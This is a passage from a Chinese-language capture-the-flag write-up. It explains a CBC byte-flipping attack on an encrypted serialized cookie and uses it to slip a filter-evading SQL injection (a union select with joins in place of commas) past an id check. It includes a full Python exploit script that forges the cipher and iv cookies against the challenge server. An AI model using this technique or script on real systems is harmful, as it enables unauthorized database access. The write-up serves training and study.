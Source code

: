 这同时也说明，我们可以通过修改 `iv` 和 `cipher` 控制 `id`，而 `iv` 和 `cipher` 是没有过滤的，所以可以成功绕过 `id` 的过滤机制。具体如何修改，也就是 CBC 字节翻转攻击的具体过程可以参考 [我的这篇博客](https://signormercurio.me/post/BugkuWeb/) 中的最后一题。

例如，我们提交 `id=12`，序列化后分组如下：
```
Block 0: a:1:{s:2:"id";s:
Block 1: 2:"12";}
```
可以看到，我们翻转第 0 组的**第 4 字节（从 0 开始计数）**，即可控制 `id=12` 中的 `2` 了。再比如，我们提交 `id=0 2nion select * from ((select 1)a join (select 2)b join (select 3)c);`（显然这里我们可以用 `join` 替换逗号，并且想把 `2` 换成 `u` 来绕过检测），序列化后分组如下：
```
Block 0: a:1:{s:2:"id";s:
Block 1: 70:"0 2nion sele
Block 2: ct * from ((sele
Block 3: ct 1)a join (sel
Block 4: ect 2)b join (se
Block 5: lect 3)c);
```
这里要翻转的变成了**第 6 字节**，而如果 payload 长度大于等于 100，则需要翻转**第 7 字节**了。

此外，需要注意在 payload 末尾添加 `%00`。如果直接添加可能会被二次 URL 编码，因此可以用 `chr(0)` 来添加。完整脚本：

```python
import base64
import urllib
import requests
import re

def login(payload, i, old, new):
    url = r'http://ctf5.shiyanbar.com/web/jiandan/index.php'
    data = {'id': payload}
    r = requests.post(url=url, data=data)
    sc = r.headers['Set-Cookie']

    cipher = re.findall(r'cipher=(.*)', sc)[0]
    iv = re.findall(r'iv=(.*),', sc)[0]
    # print(cipher)
    # print(iv)

    cd = base64.b64decode(urllib.parse.unquote(cipher))
    ivd = base64.b64decode(urllib.parse.unquote(iv))

    ch = bytes([cd[i] ^ ord(new) ^ ord(old)])
    cd = cd[:i] + ch + cd[i+1:]
    cnew = urllib.parse.quote(base64.b64encode(cd))
    # print(cnew)

    cookie0 = {'iv': iv, 'cipher': cnew}
    r = requests.post(url=url, cookies=cookie0)
    plain = re.findall(r"base64_decode\('(.*)'\)", r.text)[0]
    pd = base64.b64decode(plain)

    block0 = 'a:1:{s:2:"id";s:'
    for i in range(16):
        ch = bytes([ivd[i] ^ pd[i] ^ ord(block0[i])]) # Using bytes([int]) here is important
        ivd = ivd[:i] + ch + ivd[i+1:]
    ivnew = urllib.parse.quote(base64.b64encode(ivd))
    # print(ivnew)

    cookie1 = {'iv': ivnew, 'cipher': cnew}
    r = requests.post(url=url, cookies=cookie1)
    print(r.text)

# login('12', 4, '#', '2')
# login('0 2nion select * from ((select 1)a join (select 2)b join (select 3)c);'+ chr(0), 6, '2', 'u')
```